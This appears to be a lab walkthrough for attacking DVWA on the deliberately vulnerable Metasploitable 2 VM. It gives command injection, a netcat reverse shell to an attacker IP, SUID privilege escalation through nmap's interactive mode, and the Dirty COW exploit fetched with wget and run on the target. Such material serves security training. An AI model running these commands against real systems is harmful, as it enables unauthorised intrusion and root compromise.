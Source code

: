 **_Image Placeholder: Repeater successful login_**

---

## **_Performing an Attack Using DVWA on Metasploitable 2_**

### **Command Execution & Reverse Shell**
1. Access DVWA > Set Security to LOW.
2. Open **Command Execution** module.
3. Execute:
   ```
   <target-ip> && pwd
   ```
4. Set up reverse shell:
   - On Kali:  
     `nc -vv -lnp 1234`
   - On DVWA:  
     `nc -e /bin/sh <attacker-ip> 1234`

**_Image Placeholder: Terminal with reverse shell access_**

### **Privilege Escalation with SUID**
1. Find SUID binaries:
   ```bash
   find / -perm -4000 -type f 2>/dev/null
   ```
2. Use `nmap --interactive`:
   ```bash
   !sh
   ```
3. Verify access using `whoami`.

### **Dirty COW Exploit (CVE-2016-5195)**
- Download: [Dirty COW - firefart](https://github.com/firefart/dirtycow)
- Compile:
   ```bash
   gcc -pthread dirty.c -o dirty -lcrypt
   ```
- Transfer to MS2 via Python server:
   ```bash
   python3 -m http.server
   ```
- On target:
   ```bash
   wget http://<kali-ip>:8000/dirty -O /tmp/dirty
   ./dirty
   ```

**_Image Placeholder: Root access using Dirty COW_**

---

## **_Case Study of SOC Analyst Incident_**
